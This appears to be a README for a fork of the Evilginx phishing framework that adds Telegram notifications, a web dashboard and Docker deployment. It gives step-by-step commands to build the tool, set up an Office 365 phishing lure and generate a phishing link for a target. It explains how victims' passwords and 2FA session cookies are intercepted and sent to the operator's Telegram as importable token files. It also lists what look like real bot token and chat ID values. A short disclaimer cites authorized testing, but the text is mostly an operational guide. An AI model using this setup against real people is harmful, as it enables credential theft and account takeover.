│  When you set `config autocert on`, Evilginx requests SSL certificates     │
│  for EACH subdomain individually as soon as you hostname a phishlet:       │
│                                                                             │
│    phishlets hostname office365 yourdomain.com                             │
│      → Evilginx requests cert for login.yourdomain.com                     │
│                                                                             │
│    phishlets hostname google yourdomain.com                                │
│      → Evilginx requests cert for accounts.yourdomain.com                  │
│                                                                             │
│  Each certificate covers ONE specific subdomain (not wildcard).            │
│                                                                             │
│  📌 So KEEP autocert ON                                                    │
│                                                                             │
│  The wildcard DNS record makes sure ALL subdomains RESOLVE to your server, │
│  but autocert still needs to request certificates for each one.            │
│                                                                             │
│  ✅ Wildcard DNS = All subdomains point here                               │
│  ✅ Autocert ON = SSL certificates are issued for each subdomain           │
│  🔄 They work together perfectly.                                          │
│                                                                             │
│  📌 Why NOT Use a Single Wildcard SSL Certificate?                         │
│                                                                             │
│  - Let's Encrypt does NOT issue wildcard certificates via HTTP-01          │
│    validation (the method Evilginx uses).                                  │
│  - Wildcard certs require DNS-01 validation (DNS API integration).         │
│  - Evilginx uses autocert per-subdomain, which is simpler and works fine.  │
│                                                                             │
└─────────────────────────────────────────────────────────────────────────────┘

Bottom Line
Keep config autocert on. The wildcard DNS record is useful because:

You don't need to create individual A records for each subdomain
Any subdomain you use will automatically resolve to your server
Autocert will handle getting SSL certificates for each subdomain you enable
The wildcard DNS + autocert work together — one handles resolution, the other handles certificates.

🚀 Quick Start
This section gives you the fastest path from zero to running Evilginx3. For a complete step-by-step guide with explanations, see the DEPLOYMENT.md [blocked] guide.

Prerequisites
A VPS (Virtual Private Server) running Ubuntu 20.04+ or Debian 11+
A domain name pointed to your server via Cloudflare (DNS Only mode — grey cloud)
A Telegram account (for notifications)
SSH access to your server

One-Line System Prep

sudo apt update && sudo apt install wget curl git make build-essential screen fail2ban htop net-tools ufw -y

Step 1: Fix DNS Port Conflict (Critical!)

sudo systemctl stop systemd-resolved && sudo systemctl disable systemd-resolved
sudo rm -f /etc/resolv.conf
echo "nameserver 1.1.1.1" | sudo tee /etc/resolv.conf
echo "nameserver 1.0.0.1" | sudo tee -a /etc/resolv.conf
sudo chattr +i /etc/resolv.conf

Step 2: Install Go 1.22.5

cd ~
wget https://go.dev/dl/go1.22.5.linux-amd64.tar.gz
sudo rm -rf /usr/local/go
sudo tar -C /usr/local -xzf go1.22.5.linux-amd64.tar.gz
echo 'export PATH=$PATH:/usr/local/go/bin' >> ~/.bashrc
source ~/.bashrc
go version
# Expected: go version go1.22.5 linux/amd64

Step 3: Configure Firewall

sudo ufw allow 22/tcp && sudo ufw allow 53/udp && sudo ufw allow 80/tcp
sudo ufw allow 443/tcp && sudo ufw allow 5000/tcp
sudo ufw --force enable
sudo ufw status

Step 4: Clone and Build

cd /root
git clone https://github.com/officialmonsterz/evilginx2.git
cd evilginx2
go mod tidy
go build -o evilginx2 .
chmod +x evilginx2

Step 5: Run Evilginx3 with Dashboard

./evilginx2 -dashboard 0.0.0.0:5000 -dashboard-user admin -dashboard-pass YOUR_STRONG_PASSWORD


Step 6: Configure Inside the Console


: config domain yourdomain.com
: config ipv4 external YOUR_SERVER_IP
: config autocert on
: config unauth_url https://www.google.com
: config teletoken YOUR_TELEGRAM_BOT_TOKEN
: config chatid YOUR_TELEGRAM_CHAT_ID
: test telegram
Step 7: Enable a Phishlet and Create a Lure


: phishlets hostname office365 yourdomain.com
: phishlets enable office365
: lures create office365
: lures get-url 0
That's it! The URL displayed is your phishing link. Send it to your target (during an authorized test).

For a full, step-by-step, layman's guide covering every detail with explanations, see DEPLOYMENT.md [blocked].


📱 Telegram Integration
How to Set Up Telegram Notifications
Step 1: Create a Telegram Bot
Open Telegram and search for @BotFather
Send: /newbot
Choose a display name (e.g., My Security Monitor)
Choose a username ending in _bot (e.g., my_security_bot)
Copy the bot token — it looks like: 8863425004:AAF7mZ0poUo6dal8-8FgUNgRkIhkPlylAvo
Step 2: Get Your Chat ID

# First, message your bot on Telegram (send any message)
# Then run:
curl -s "https://api.telegram.org/botYOUR_TOKEN/getUpdates"
Look for: "chat":{"id":7545456339,...} — that number is your Chat ID.

Step 3: Configure in Evilginx Console

: config teletoken 8863425004:AAF7mZ0poUo6dal8-8FgUNgRkIhkPlylAvo
: config chatid 7545456339
: test telegram
You should receive a test message in Telegram within seconds.

What You Get
Instant notification when credentials are captured
Credentials displayed in the message: username, password, IP, user agent
Token file attached as a .txt download — ready to import into your browser
Auto-updating messages — if more tokens arrive, the same message is updated (no spam)
Async delivery — Telegram notifications never slow down the phishing proxy


📊 Web Dashboard
Accessing the Dashboard
Open your browser and visit:


http://YOUR_SERVER_IP:5000
Login with the credentials you set via -dashboard-user and -dashboard-pass flags.

Dashboard Features
View all captured sessions in a clean table
Search by username, password, IP address, or phishlet name
Filter by specific phishlet (show only Office 365 captures, for example)
Export all data as CSV or JSON with one click
Delete individual sessions
View full session details including all captured cookies and tokens
Dark mode toggle for comfortable nighttime use
Auto-refresh every 5 seconds
REST API
The dashboard exposes a full REST API for programmatic access. See the API Endpoints section above for details.


🐳 Docker Support
Quick Build & Run

# Build the image
docker build -t evilginx2-telegram .

# Run the container
docker run -d \
  --name evilginx2 \
  --restart unless-stopped \
  -p 53:53/udp \
  -p 80:80 \
  -p 443:443 \
  -p 5000:5000 \
  -v evilginx-data:/home/evilginx/.evilginx \
  evilginx2-telegram \
  -dashboard 0.0.0.0:5000 \
  -dashboard-user admin \
  -dashboard-pass YOUR_STRONG_PASSWORD


Docker Compose

version: '3.8'
services:
  evilginx2:
    build: .
    container_name: evilginx2
    restart: unless-stopped
    ports:
      - "53:53/udp"
      - "80:80"
      - "443:443"
      - "5000:5000"
    volumes:
      - evilginx-data:/home/evilginx/.evilginx
    command: >
      -dashboard 0.0.0.0:5000
      -dashboard-user admin
      -dashboard-pass YOUR_STRONG_PASSWORD

volumes:
  evilginx-data:

🧬 Architecture & Data Flow
Complete System Architecture

┌──────────────────────────────────────────────┐
│                  MAIN.GO                     │
│          Entry Point + Flag Parser            │
│  Parses command-line flags, initializes all   │
│  components, starts the system                │
└────┬──────┬──────┬──────┬────┘
     │      │      │      │
     │      │      │      │
     ▼      ▼      ▼      ▼
┌──────────────────┐  ┌──────────────────┐  ┌──────────────────┐
│   NAMESERVER     │  │     CERTDB       │  │   HTTP PROXY     │
│   (DNS Server)   │  │  (SSL Certs)     │  │  (MITM Engine)   │
│                  │  │                  │  │                  │
│  core/nameserver │  │  core/certdb     │  │  core/http_proxy │
│  .go             │  │  .go             │  │  .go             │
│                  │  │                  │  │                  │
│  Handles DNS     │  │  Manages SSL     │  │  The core MITM   │
│  requests for    │  │  certificates    │  │  reverse proxy   │
│  your domain.    │  │  from Let's      │  │  that intercepts │
│  Resolves to     │  │  Encrypt.        │  │  credentials and │
│  your server.    │  │  Auto-renewal.   │  │  session cookies. │
└──────────────────┘  └──────────────────┘  └────────┬──────────┘
                                                     │
                  ┌──────────────────────────────────┼──────────────────────────────────┐
                  ▼                                  ▼                                  ▼
    ┌──────────────────────────┐  ┌──────────────────────────┐  ┌──────────────────────────┐
    │   TELEGRAM QUEUE          │  │      DASHBOARD           │  │      BUNTDB DB            │
    │   (Async Notifications)   │  │      (Web UI)            │  │      (Storage)            │
    │                           │  │                          │  │                          │
    │   core/telegram_queue.go  │  │   core/dashboard.go      │  │   database/database.go   │
    │   core/notify.go          │  │                          │  │   database/db_session.go │
    │   core/tele.go            │  │   HTML template +        │  │                          │
    │                           │  │   REST API endpoints     │  │   Zero-config embedded   │
    │   Non-blocking buffered   │  │                          │  │   key-value database.    │
    │   channel (100 jobs).     │  │   Basic auth protected.  │  │                          │
    └──────────────────────────┘  └──────────────────────────┘  └──────────────────────────┘


Complete Data Flow — From Capture to Delivery


┌─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┐
│                                  THE COMPLETE JOURNEY OF A CAPTURED SESSION                                                                  │
├─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┤
│                                                                                                                                             │
│  PHASE 1: VICTIM INTERACTS                                                                                                                  │
│  ┌───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┐  │
│  │  Victim receives email → Opens phishing URL → Browser loads page (looks identical to real site) → Victim types credentials → Submit │  │
│  └───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┘  │
│                                          │                                                                                                    │
│  PHASE 2: PROXY CAPTURES                                                                                                                     │
│  ┌───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┐  │
│  │  http_proxy.go intercepts the POST request                                                                                            │  │
│  │  │                                                                                                                                     │  │
│  │  ├── Extracts username/password from form body or JSON payload                                                                        │  │
│  │  ├── Stores in Session object (core/session.go)                                                                                       │  │
│  │  └── Forwards request to REAL website (login succeeds — victim sees no error)                                                        │  │
│  └───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┘  │
│                                          │                                                                                                    │
│  PHASE 3: RESPONSE INTERCEPTION                                                                                                             │
│  ┌───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┐  │
│  │  http_proxy.go intercepts the response from real website                                                                               │  │
│  │  │                                                                                                                                     │  │
│  │  ├── Captures Set-Cookie headers → stored as CookieTokens                                                                             │  │
│  │  ├── Captures response body tokens → stored as BodyTokens                                                                             │  │
│  │  ├── Captures HTTP header tokens → stored as HttpTokens                                                                               │  │
│  │  └── Checks if all required auth tokens are captured (based on phishlet YAML config)                                                   │  │
│  └───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┘  │
│                                          │                                                                                                    │
│  PHASE 4: SESSION PERSISTENCE                                                                                                               │
│  ┌───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┐  │
│  │  If session is complete (all required tokens captured):                                                                               │  │
│  │  │                                                                                                                                     │  │
│  │  ├── Save to BuntDB via database.db_session.go (CreateSession function)                                                               │  │
│  │  ├── Auto-export to JSON and CSV files on disk                                                                                        │  │
│  │  └── Enqueue Telegram notification job (non-blocking)                                                                                 │  │
│  └───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┘  │
│                                          │                                                                                                    │
│  PHASE 5: TELEGRAM NOTIFICATION                                                                                                             │
│  ┌───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┐  │
│  │  telegram_queue.go receives job → processes asynchronously (doesn't block proxy)                                                       │  │
│  │  │                                                                                                                                     │  │
│  │  ├── notify.go → createTxtFile(): formats all tokens into JSON → writes .txt to /tmp                                                  │  │
│  │  ├── notify.go → formatSessionMessage(): builds MarkdownV2 message (with escaped special chars)                                      │  │
│  │  ├── tele.go → sendTelegramNotification(): sends document with caption to your Telegram                                              │  │
│  │  └── notify.go → stores message_id in sessionMessageMap (for future updates)                                                          │  │
│  └───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┘  │
│                                          │                                                                                                    │
│  PHASE 6: SUBSEQUENT TOKENS (if any)                                                                                                        │
│  ┌───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┐  │
│  │  If more tokens arrive for the same session (e.g., victim completes 2FA after password):                                              │  │
│  │  │                                                                                                                                     │  │
│  │  ├── notify.go checks processedSessions map → "already processed?"                                                                    │  │
│  │  ├── YES → look up message_id from sessionMessageMap                                                                                  │  │
│  │  ├── tele.go → editMessageFile(): edits the SAME Telegram message (no new message in chat)                                           │  │
│  │  └── Result: ONE message per session, always updated with latest data. NO SPAM.                                                      │  │
│  └───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┘  │
│                                          │                                                                                                    │
│  PHASE 7: DASHBOARD ACCESS                                                                                                                  │
│  ┌───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┐  │
│  │  User opens browser → http://SERVER:5000                                                                                              │  │
│  │  │                                                                                                                                     │  │
│  │  ├── dashboard.go → handleDashboard(): serves HTML template with inline JavaScript                                                    │  │
│  │  ├── dashboard.go → handleAPISessions(): returns JSON from BuntDB with search, filter, pagination                                     │  │
│  │  ├── Frontend JavaScript renders table, handles search/filter/pagination client-side                                                  │  │
│  │  └── Export buttons download CSV/JSON via /api/sessions/export                                                                        │  │
│  └───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┘  │
│                                                                                                                                             │
└─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┘


📂 Repository File Structure

├── main.go                              # 🚀 Entry point — parses flags, initializes all components
│
├── core/                                # 🧠 Core engine — the brain of the operation
│   ├── http_proxy.go                    #    MITM reverse proxy (modified for TG integration)
│   ├── session.go                       #    In-memory session management
│   ├── config.go                        #    Config (includes Chatid/Teletoken setters)
│   ├── notify.go                        #    📱 Telegram notification logic + file creation
│   ├── telegram_queue.go                #    ⏳ Async notification queue (buffered channel)
│   ├── tele.go                          #    📡 Low-level Telegram API calls
│   ├── telegram_escape.go               #    🔤 MarkdownV2 escaping for Telegram
│   ├── tsession.go                      #    📋 Telegram session struct + DB reader
│   ├── dashboard.go                     #    📊 Web dashboard (HTML + REST API)
│   ├── auto_export.go                   #    📁 Auto-export sessions to JSON/CSV
│   ├── nameserver.go                    #    🌐 DNS server
│   ├── certdb.go                        #    🔐 SSL certificate management
│   ├── blacklist.go                     #    🚫 IP blacklist
│   ├── whitelist.go                     #    ✅ IP whitelist
│   ├── phishlet.go                      #    🎣 Phishlet engine
│   ├── terminal.go                      #    💻 CLI interface
│   ├── gophish.go                       #    🔗 Gophish integration
│   ├── banner.go                        #    🖼️ ASCII art banner
│   ├── help.go                          #    ❓ Help commands
│   ├── scripts.go                       #    📜 JS injection scripts
│   ├── shared.go                        #    🔧 Shared utilities
│   ├── table.go                         #    📋 Table formatting
│   └── utils.go                         #    🔧 Utility functions
│
├── database/                            # 💾 Persistence layer
│   ├── database.go                      #    BuntDB wrapper — init, helpers, CRUD dispatch
│   └── db_session.go                    #    Session struct + full CRUD operations
│
├── phishlets/                           # 🎣 YAML phishing templates (office365, google, linkedin, etc.)
├── redirectors/                         # 🔀 HTML redirector pages
│
├── Dockerfile                           # 🐳 Multi-stage Alpine build (~18MB)
├── .dockerignore                        #    Docker build exclusions
├── docker-compose.yml                   #    Docker Compose configuration
│
├── Makefile                             # 🔨 Build helpers
├── go.mod / go.sum                      # 📦 Go module dependencies
│
├── DEPLOYMENT.md                        # 📘 Full deployment guide (12 phases, step-by-step)
├── CHANGELOG                            # 📋 Version history
├── LICENSE                              # ⚖️ BSD 3-Clause
└── README.md                            # 📖 This file

⚖️ Disclaimer
I am fully aware that Evilginx can be used for nefarious purposes. This work is merely a demonstration of what adept attackers can do. It is the defender's responsibility to take such attacks into consideration and find ways to protect their users against this type of phishing attacks.

Evilginx should be used only in legitimate penetration testing assignments with written permission from the parties being tested.

Unauthorized use of this tool is illegal and unethical. The author and contributors assume no liability for misuse.


👏 Credits & Support
Contributors

Contribution	Author	Contact
Telegram Integration — Async queue, file attachments, auto-updating messages	@officialmonsterz	GitHub / Telegram / shapads@tutamail.com
Web Dashboard — HTML UI, REST API, CSV/JSON export, search, dark mode	@officialmonsterz	Same as above
Database Layer — BuntDB integration, session CRUD	@officialmonsterz	Same as above
Docker Build — Multi-stage, Alpine, ~18MB	@officialmonsterz	Same as above
Auto-Export System — Auto-save sessions to JSON/CSV	@officialmonsterz	Same as above
Original Evilginx2/3 (Core Framework)	Kuba Gretzky (@mrgretzky)	kgretzky/evilginx2

Big thanks to Kuba Gretzky for creating such a phenomenal tool and making it open source. This fork builds upon his incredible work.

Get Help
Telegram Support: t.me/officialmonsterz
Email: shapads@tutamail.com
GitHub Issues: github.com/officialmonsterz/evilginx2/issues
Repository: github.com/officialmonsterz/evilginx2
Created with ❤ by @officialmonsterz

Special thanks to the entire Evilginx community for their contributions and support.
